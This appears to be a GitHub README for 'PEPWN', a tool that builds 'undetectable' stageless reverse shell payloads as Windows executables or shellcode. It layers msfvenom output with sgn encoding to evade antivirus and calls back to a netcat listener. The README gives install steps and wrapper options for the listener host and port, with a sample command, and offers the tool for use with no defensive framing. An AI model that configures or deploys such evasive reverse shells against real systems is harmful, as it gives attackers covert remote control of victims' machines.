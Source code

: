 # PEPWN
PWNPE is a multi chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


# Overview

1- generate a payload with msfvenom.
2- generate a shellcode from it
3- encodes it.
4- apply 2nd layer of encoding using sgn.
5- transfer it into a shellcode format of use or create exe file that triggers that shellcode using syscalls.



# Installation

Go to /root directory 

git clone https://github.com/0xx7/PEPWN.git



./build.sh

Then 

./wrapper -H



# Documentation

Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 -f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 -t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 -h : host/ip/domain of the listener
 
 -p : port of the listener
 
 -H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


# How to use

https://youtu.be/SYriAv_FPAg



